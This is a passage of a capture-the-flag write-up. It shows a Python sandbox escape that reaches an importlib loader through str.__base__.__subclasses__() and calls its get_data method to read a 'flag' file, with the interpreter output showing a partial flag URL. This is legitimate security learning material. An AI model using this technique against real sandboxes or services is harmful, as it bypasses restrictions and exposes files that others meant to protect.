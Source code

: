 I didn't really fill comfortable with how the module and function works - so I decided to test it on my local system. For me, it's at index 122 out of the subclassess of the `object` class.

```py
>>> dir(str.__base__.__subclasses__()[122])
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'get_data', 'get_filename', 'get_resource_reader', 'load_module']
```

Heh, funny, it also has `load_module`. Maybe since it's part of `importlib`, I realized. Anyway, I tried calling the nice function `help` on `get_data` (available to my local Python):

```py
>>> help(str.__base__.__subclasses__()[122].get_data)
Help on function get_data in module importlib._bootstrap_external:

get_data(self, path)
    Return the data from path as raw bytes.
```

Man, I love `help`. So I simply pass the function a path. 

On the shell I have, the function is at index 99 of the subclasses list. What should I use as the path? There are 2 really plausible options - `flag` at the working directory and `/flag` at the root like in previous challenges. Let's start with the former since it's slightly shorter.

```py
print(str.__base__.__subclasses__()[99].get_data("flag"))
\ print(str.__base__.__subclasses__()[99].get_data("f \
\ get_data() missing 1 required positional argument:  \
```

Wait, what? Oh, wait, it's a member function and not static, so I need `self`. Alright, I'll just have to instantiate the class. But does it take anything in its `__init__`? `help` on my local Python should *help* here as well:

```py
>>> help(str.__base__.__subclasses__()[122].__init__)
Help on function __init__ in module importlib._bootstrap_external:

__init__(self, fullname, path)
    Cache the module name and the path to the file found by the
    finder.
```

`fullname`? `path`? But `read_data` takes a paramter itself. From the documentation here, I believed these inputs are probably related to the actual usage of the class rather than this unique situation and using `read_data` manually, so I just passed empty strings and hoped for the best:

```py
print(str.__base__.__subclasses__()[99]("","").get_data("flag"))
\ print(str.__base__.__subclasses__()[99]("","").get_ \
\ b'https://h4ck1ng.google/solve/7h3_s1mul4crum_i5_7r \
```
